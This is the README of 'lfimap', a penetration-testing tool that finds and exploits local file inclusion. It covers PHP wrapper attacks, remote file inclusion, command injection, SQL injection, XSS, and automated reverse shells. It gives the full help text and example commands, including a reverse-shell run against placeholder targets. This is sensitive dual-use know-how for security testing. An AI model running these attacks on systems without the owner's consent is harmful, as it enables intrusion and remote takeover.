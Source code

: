 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote command execution
- expect:// for remote command execution
- input:// for remote command execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Path truncation for arbitrary file inclusion
- Command injection for remote command execution
- Generic time based blind sql injection testing
- Reflected XSS testing
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option to specify delay in between requests
- Option for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)
- [Usage](https://github.com/hansmach1ne/lfimap/wiki)

### What features are working currently
- Scan parameters for path traversal (different bypasses, nullbyte, path normalization, string stripping injection, single and double URL encoding, etc..)
- Scan parameters for local file inclusion using wrappers (filter, input, data, expect, file)
- Scan parameters for remote file inclusion (remote internet facing website, if LHOST address is provided test by hosting a file on local web server)
- Scan parameters for results-based and blind command injection (different injection sequences, $IFS, ${IFS%??})
- Scan parameters for basic blind sql injection (currently supports only MySQL)
- Scan parameters for unsanitized reflection (Basic reflected XSS test using img onerror JavaScript event handler)
- Inline check for arbitrary open redirection
- Supports scans for GET and POST request parameters
- Supports scans through a proxy
- Supports scans with custom session cookies, user-agent, referer and/or HTTP headers
- Supports scans and exploitation with delay in between requests
- Supports scans and exploitation for windows and linux web servers
- Supports automated reverse shell upon RCE detection (Current methods that support this are: data, input and expect wrappers, remote file inclusion, command injection, http access log poisoning)

### What features will work in future
- RCE attack using /self/fd, /self/environ techniques and http error log poisoning
- Better Generic blind SQLi test support for Oracle, MsSQL and PostgreSQL database engines
- Better XSS test using different tags (that will try to bypass waf with more obscure payloads)
- Better RFI test using different file extensions, nullbyte...
- Automatic parameter recognition, select parameters to test with * (star) value or with '-p' parameter
- Request retry system for dropped requests
- Support testing with raw http request from a file
- Support for different transport protocols in POST request (xml and json)
- Support to test and exploit HTTP header values
- Enumeration category of options that will use found vulnerabilities to find out more about the system
- Output results to a file
- False positive check

### -h, --help
```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] ć
[--useragent <agent>] [--referer <referer>] [--param <name>] [--delay <seconds>] [--no-stop] [-f] [-i] 
[-d] [-e] [-t] [-r] [-c] [--file] [--xss] [--sqli] [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] 
[-wT <path>] [-wC <path>] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]             		 Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]         		 Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>          		 Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>         		 Do HTTP POST value test. Ex: "param=PWN"
  -H <header>          		 Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>           		 Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>  		 Specify HTTP user agent
  --referer <referer>  		 Specify HTTP referer
  --param <name>       		 Specify different test parameter value
  --delay <seconds>    		 Specify delay in seconds in-between requests
  --no-stop            		 Don't stop using same method upon findings
  --http-ok <number>   		 Specify http response code(s) to treat as valid

ATTACK TECHNIQUE:
  -f, --filter         		 Attack using filter:// wrapper
  -i, --input          		 Attack using input:// wrapper
  -d, --data           		 Attack using data:// wrapper
  -e, --expect         		 Attack using expect:// wrapper
  -t, --trunc          		 Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi            		 Attack using remote file inclusion
  -c, --cmd            		 Attack using command injection
  --file               		 Attack using file:// wrapper
  --xss                		 Test for reflected XSS
  --sqli               		 Test for SQL injection
  --info               		 Test for basic information disclosures
  -a, --all            		 Use all available methods to attack

PAYLOAD OPTIONS:
  -x, --exploit        		 Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>      		 Specify local ip address for reverse connection
  --lport <lport>      		 Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>           		 Specify wordlist for truncation test
  -wC <path>           		 Specify wordlist for command injection test

OTHER:
  -v, --verbose        		 Print more detailed output when performing attacks
  -h, --help           		 Print this help message

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.

